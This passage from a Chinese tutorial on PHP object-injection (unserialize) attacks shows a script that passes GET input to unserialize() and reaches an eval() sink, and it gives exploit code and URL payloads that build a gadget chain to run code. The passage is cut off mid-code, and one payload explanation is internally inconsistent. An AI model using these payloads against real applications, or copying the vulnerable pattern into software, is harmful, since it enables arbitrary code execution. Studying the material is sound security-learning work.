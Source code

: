 利用:

```php
<?php
    class A{
        protected $test = "hacked by ghtwf01";
    }
    $a = new A();
    $b = serialize($a);
    print_r($b);
?>
```

得到序列化后的字符串为`O:1:"A":1:{s:7:"Atest";s:17:"hacked by ghtwf01";`
因为`private`是类名`A`两边都有`%00`所以同样在`url`上面体现

```php
?test=O:1:"A":1:{S:7:"\00A\00test";s:4:"test";}
```

## 同名方法的利用

```php
<?php
    class A{
        public $target;
        function __construct(){
            $this->target = new B;
        }
        function __destruct(){
            $this->target->action();
        }
    }
    class B{
        function action(){
            echo "action B";
        }
    }
    class C{
        public $test;
        function action(){
            echo "action A";
            eval($this->test);
        }
    }
    unserialize($_GET['test']);
?>
```

这个例子中，`class B`和`class C`有一个同名方法`action`，我们可以构造目标对象，使得析构函数调用`class C`的`action`方法，实现任意代码执行
利用代码

```php
<?php
    class A{
        public $target;
        function __construct(){
            $this->target = new C;
            $this->target->test = "phpinfo();";
        }
        function __destruct(){
            $this->target->action();
        }
    }
    class C{
        public $test;
        function action(){
```